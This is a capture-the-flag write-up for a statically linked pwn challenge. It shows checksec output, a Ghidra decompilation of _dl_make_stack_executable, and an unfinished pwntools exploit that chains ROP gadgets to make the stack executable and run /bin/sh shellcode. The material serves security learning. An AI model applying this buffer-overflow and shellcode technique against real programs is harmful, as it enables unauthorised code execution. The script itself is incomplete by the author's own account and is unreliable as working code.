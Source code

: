 # The Tale of the Really SAD binary

Static and Dynamic was an interesting challenge for me. I was able to figure this out; however, I had to try two different methods in order to successfully get it. The method of using syscalls already has a writeup for it. You can [click here](https://ctftime.org/task/12566) to view them. Rather I will show you how I tried to solve this challenge and how I was *almost* successful. 

The first thing that I did was run `checksec` on it. 
```bash
$ checksec sad
[*] '/home/wittsend2/Documents/hacktivitycon-ctf/pwn/sad/sad'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The weird part to me was that there was a canary. So I tried testing it out by running it. 

```bash
wittsend2@ubuntu:[~/Documents/hacktivitycon-ctf/pwn/sad]
$ python -c "print('A'*264)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
wittsend2@ubuntu:[~/Documents/hacktivitycon-ctf/pwn/sad]
$ ./sad
This is a really big binary. Hope you have everything you need ;)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
wittsend2@ubuntu:[~/Documents/hacktivitycon-ctf/pwn/sad]
$ 
```
Hmmm, doesn't actually seems like there was a canary; thus, I will ignore that it was enabled. I also figured out that it took 256 bytes to start to overflow the buffer; thus, I will use that when crafting my exploit. 

Lets see if we can reverse this binary and find something interesting. When looking through the binary in Ghidra, I found this function called: `_dl_make_stack_executable`, and my brain thought it hit jackpot. 

Let's break down this file and see what we need to do. 

```C
ulong _dl_make_stack_executable(ulong *param_1)

{
  int iVar1;
  undefined4 extraout_var;
  long in_FS_OFFSET;
  
  iVar1 = mprotect((void *)(-_dl_pagesize & *param_1),_dl_pagesize,__stack_prot);
  if (iVar1 == 0) {
    *param_1 = 0;
    _dl_stack_flags = _dl_stack_flags | 1;
    return CONCAT44(extraout_var,iVar1);
  }
  return (ulong)*(uint *)(in_FS_OFFSET + -0x40);
}
```
```assembly
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined _dl_make_stack_executable()
             undefined         AL:1           <RETURN>
                             _dl_make_stack_executable                       XREF[4]:     Entry Point(*), 
                                                                                          _dl_map_object_from_fd.constprop
                                                                                          004a69b0(*), 004af138(*)  
        0046c120 f3 0f 1e fa     ENDBR64
        0046c124 48 8b 35        MOV        RSI,qword ptr [_dl_pagesize]                     = 0000000000001000h
                 ed 2f 04 00
        0046c12b 8b 15 bf        MOV        EDX,dword ptr [__stack_prot]                     = 01000000h
                 1d 04 00
        0046c131 53              PUSH       RBX
        0046c132 48 89 fb        MOV        RBX,RDI
        0046c135 48 89 f7        MOV        RDI,RSI
        0046c138 48 f7 df        NEG        RDI
        0046c13b 48 23 3b        AND        RDI,qword ptr [RBX]
        0046c13e e8 2d 3b        CALL       mprotect                                         int mprotect(void * __addr, size
                 fd ff
        0046c143 85 c0           TEST       EAX,EAX
        0046c145 75 19           JNZ        LAB_0046c160
        0046c147 48 c7 03        MOV        qword ptr [RBX],0x0
                 00 00 00 00
        0046c14e 5b              POP        RBX
        0046c14f 83 0d b2        OR         dword ptr [_dl_stack_flags],0x1                  = 00000007h
                 2f 04 00 01
        0046c156 c3              RET
        0046c157 66              ??         66h    f
        0046c158 0f              ??         0Fh
        0046c159 1f              ??         1Fh
        0046c15a 84              ??         84h
        0046c15b 00              ??         00h
        0046c15c 00              ??         00h
        0046c15d 00              ??         00h
        0046c15e 00              ??         00h
        0046c15f 00              ??         00h
                             LAB_0046c160                                    XREF[1]:     0046c145(j)  
        0046c160 48 c7 c0        MOV        RAX,-0x40
                 c0 ff ff ff
        0046c167 5b              POP        RBX
        0046c168 64 8b 00        MOV        EAX,dword ptr FS:[RAX]
        0046c16b c3              RET
        0046c16c 0f              ??         0Fh
        0046c16d 1f              ??         1Fh
        0046c16e 40              ??         40h    @
        0046c16f 00              ??         00h
```

From what we are looking at, it seems that it is awrapper for `mprotect()`. It takes `__stack_prot` as a parameter, which determines whether `NX` is enabled. After doing some research, I realized that the value of `__stack_prot` needed to be `7` so that it can be executable (this is done through a ROP chain). Afterwards, we can jump to the stack with shellcode. Here is what I crafted for the exploit so far. There is a slight issue with it, can you see it?: 

```py
from pwn import *

local = True

if local == True:
    elf = ELF('./sad')
    p = elf.process()
else:
    p = remote("jh2i.com", 50002)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
log.info(len(shellcode))
nops = b'\x90'*(264) #- len(shellcode))

with open("symbols.txt", "w") as f:
    f.write(str(elf.symbols.keys()))

rbp = p64(0x402d00)
pop_rsi_ret = p64(0x407aae) #pop rrsi; ret
pop_rax_ret = p64(0x43f8d7) #pop eax; ret
pop_rcx_ret = p64(0x4073e3) #pop rcx; ret
pop_rsp_ret = p64(0x40299b) #pop rsp; ret
pop_rdi_ret = p64(0x403434) #pop rdi ; ret
#mov_rsi_ret = p64(0x46b8a5) #mov qword ptr [rsi] ; rax ; ret
addr_exec_stack = p64(elf.symbols['_dl_make_stack_executable'])
print("_dl_make_stack_executable function location: " + str(addr_exec_stack))
addr_stack_prot = p64(elf.symbols['__stack_prot'])
print("Stack prot variable: " + str(addr_stack_prot))
libc_stack_end = p64(elf.symbols['__libc_stack_end'])
print("Stack end: " + str(libc_stack_end))

payload = nops
payload += pop_rsi_ret
payload += addr_stack_prot
payload += pop_rax_ret
payload += p64(0x7)
# payload += mov_rsi_ret

payload += pop_rdi_ret
payload += libc_stack_end
payload += addr_exec_stack
# NEED JMP_RSP
payload += shellcode


with open("payload.txt", "wb") as f:
    f.write(payload)
#leave_ret = p64(0x401e25)

# print(elf.symbols['puts'])
# payload = shellcode + nops + leave_ret + addr


p.recvuntil("This is a really big binary. Hope you have everything you need ;)")
p.sendline(payload)
p.interactive()
```

The issue is that we need an address to `jmp rsp`; however, when using ROPgadget, I was unable to find it. This is the fianl piece to test further whether stack. It is likely that **I might need to make adjustments after finding jmp rsp**; however, I wanted to share the concept of this path to the exploit with everyone. If you have any questions for me, please reach out to me on [The Ragnar Security Twitter](https://twitter.com/ragnarsecurity).
